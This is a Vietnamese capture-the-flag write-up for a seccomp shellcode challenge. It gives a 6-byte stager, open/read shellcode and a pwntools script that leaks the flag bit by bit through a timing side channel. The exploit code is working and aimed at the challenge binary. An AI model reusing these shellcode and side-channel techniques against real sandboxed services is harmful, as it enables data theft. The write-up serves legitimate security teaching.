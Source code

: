 # SHELLCODE+TIMING ATTACK

Bài này ta được cung cáp file src như sau :
```C
// gcc chall.c -o chall -lseccomp

#define _GNU_SOURCE 1

#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <stdio.h>
#include <seccomp.h>

void *shellcode_mem;
size_t shellcode_size;

int main(int argc, char **argv, char **envp)
{
    shellcode_mem = mmap((void *) 0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
    assert(shellcode_mem == (void *) 0x1337000);
    puts("hihihihi");
    puts("Welcome to the KCSCTF shellcode sandbox!");
    puts("======================================");
    puts("Allowed syscalls: open, read");
    puts("You've got 6 bytes, make them count!");
    puts("======================================");
    fflush(stdout);

    shellcode_size = read(0, shellcode_mem, 0x6);
    assert(shellcode_size > 0);

    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);

    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0) == 0);    
    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0) == 0);

    assert(seccomp_load(ctx) == 0);

    ((void(*)())shellcode_mem)();
}
```
ta có thể thấy rằng ở bài này tác giả đã cố ý sử dụng seccomp để cho ta chỉ có thể sử dụng hai syscall là sys.read và sysopen . Cùng với đó ta có thể thấy trước 
dó chương  trình đã gọi hàm mmap để tạo ra một khoảng bộ nhớ để có quyền RWX và sẽ đọc 6byte vô địa chỉ đó(0x1337000), rồi mới thiết lập seccomp ,cuối cùng nó sẽ thực thi 6byte shellcode mà ta đã ghi vô 0x1337000.
. Vậy ta chỉ còn có cách là dùng 6 byte shellcode đó gọi hàm read và ta sẽ ghi thêm shellcode vô địa chỉ(0x1337000+6) để điều khiển chương trình .

# PLAN 
1. dùng 6 byte shellcode đọc để gọi hàm read vô địa chỉ 0x1337000+6 tiếp tục điều khiển chương trình
2. ta sẽ đọc flag và brute force từng byte của chương trình để lấy flag

# Stage1: 

phần này thì chỉ cần debug chương trình , đặt break point ngay trước khi chương trình thục thi shell code của ta thì ta sẽ thấy các thanh ghi như sau :
```asm
rax: 0
rdx: 0x1337000
rdi: giá trị nào đó 
```
vậy để có thể gọi hàm read thì ta chỉ cần rsi chỏ đển địa chỉ buffer mà ta muốn đọc vô và rdi=0 để có thể đọc dưới dạng là stdin . vậy ta sẽ có shell code như sau :
```asm
mov esi,edx
xor edi,edi
syscall
```

và ta có shellcode như sau :
```python
shellcode=b"\x89\xD6\x31\xFF\x0F\x05"
```
ok ta thấy rằng shell code của ta khônng dính null byte và vừa đủ 6 byte.

# Stage2:
ta có code như sau :

```asm
        xor rax,rax         
        mov al,2
        xor rdi,rdi
        mov edi,0x1337110     ; địa chỉ sẽ chứ đường dẫn "./flag\x00" của ta 
        xor rsi,rsi
        xor rdx,rdx
        syscall               ; sys open 
        mov edi,eax           ; 
        xor rax,rax
        mov dl,0x99
        xor rsi,rsi
        mov esi,0x1337210     ; sau khi mở thì ta sẽ đọc flag vô địa chỉ 0x1337210
        syscall               ; sys read
```


```python
            shellcode=b"A"*6 # padding qua 6 byte trước đó 
            shellcode+=shellcode__(index,bit_offset)# shellcode ở phía  trên 
            shellcode=shellcode.ljust(0x110) # padding đế địa chỏ chứa đường dẫn của ta 
            shellcode+=b'./flag\x00' # đường dẫn 
```

OK vậy là xong bước 2 . debug trên local thì ta sẽ thấy chương trình đã đọc flag vô địa chỉ 0x1337210;


Bước còn lại là lấy flag ra . Ta sẽ sử dụng timing attack , ta sẽ cho chương trình đọc từng byte của flag vô thanh ghi bl sau đó đối chiếu với từng ký tự asccii có thể in ra .
nhưng cách này thì rât lâu bơi ta sẽ phải đối chiếu với rất tất cả các ký tự asccii trong string.printable.Và lúc thi thì mình làm cách này =))

Nhưng sau khi xem solution thì mình sẽ dùng cách khác đó là đối chiếu từng từng bit , dùng cách này thì ta sẽ chỉ cần 8 lần brute ta đã có thể lấy được 1 chữ .

mình sẽ lấy VD để dễ giải thích hơn :

ta biết chữ đầu tiên trong flag sẽ là "K" dưới dạng bin thì sẽ là '0100 1011', ta sẽ đối chiếu từng bit như sau 

```asm
        mov eax,0x1337210
        add eax,{index}
        mov bl, byte ptr[rax]
        ; vd ta muốn lấy second least significant bit(bit thứ 2 từ phải qua) tương ứng với index=1
        shr bl,{bit_offset}    ;(0100 1011) >> 1= 0010 0101
        shl bl,7               ; 0010 0101 << 7= 1000 0000
        shr bl,7               ; 1000 0000 >> 7= 0000 0001
        INFI_LOOP:
            cmp bl,0           ; nếu bit đó là 1 thì ta sẽ cho chương trình chạy vô hạn 
            je end             ; 0 thi thoát
            jmp INFI_LOOP
        end:
```

vậy để kiểm tra xem chương trình có rơi vào INFI_LOOP không thì ta chỉ cần :
```python
start=time.time()# thời gian ngay sau khi ta send payload lần 2
p.recvall(timeout=1).decode()# nếu chương trình rơi vào vong INFI loop thì sẽ có một khoảng khác giữa giá trị của now và start. còn nếu chương trình nhảy vô end thì nó sẽ thoát luôn
now=time.time()
```



vậy ta sẽ có code như sau :
```python
def shellcode__(index,bit_offset):
    shellcode=asm(
        f'''
        xor rax,rax
        mov al,2
        xor rdi,rdi
        mov edi,0x1337110
        xor rsi,rsi
        xor rdx,rdx
        syscall
        mov edi,eax
        xor rax,rax
        mov dl,0x99
        xor rsi,rsi
        mov esi,0x1337210
        syscall

        mov eax,0x1337210
        add eax,{index}
        mov bl, byte ptr[rax]
        shr bl,{bit_offset}
        shl bl,7
        shr bl,7
        cmp bl,0
        INFI_LOOP:
            cmp bl,0
            je end
            jmp INFI_LOOP
        end:
        '''
        )
    return shellcode
def timing_attack(index):
    string_bin=''
    for bit_offset in range(8):
        
            #p=remote("103.162.14.240", 15000)
            p=process(exe.path)
            #GDB()
            shellcode=b"\x89\xD6\x31\xFF\x0F\x05"
            p.send(shellcode)
            shellcode=b"A"*6
            shellcode+=shellcode__(index,bit_offset)
            shellcode=shellcode.ljust(0x110)
            shellcode+=b'./flag.txt\x00'
            p.send(shellcode)
            start=time.time()
            p.recvall(timeout=1).decode()
            now=time.time()
            if (now-start>1):
                string_bin='1'+string_bin
            else:
                string_bin='0'+string_bin
    byte=int(string_bin,2)
    return byte
```

author scipt in s.py

my script in p.py

chạy script và ĐỢI thì ta sẽ có flag:

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/5b920ea4-d031-46ca-8666-ab2bb1aef9bf)

flag`KCSC{S1de_channel_hihihi_d6e25f87c7ebeef6e80df23d32c42d00}`




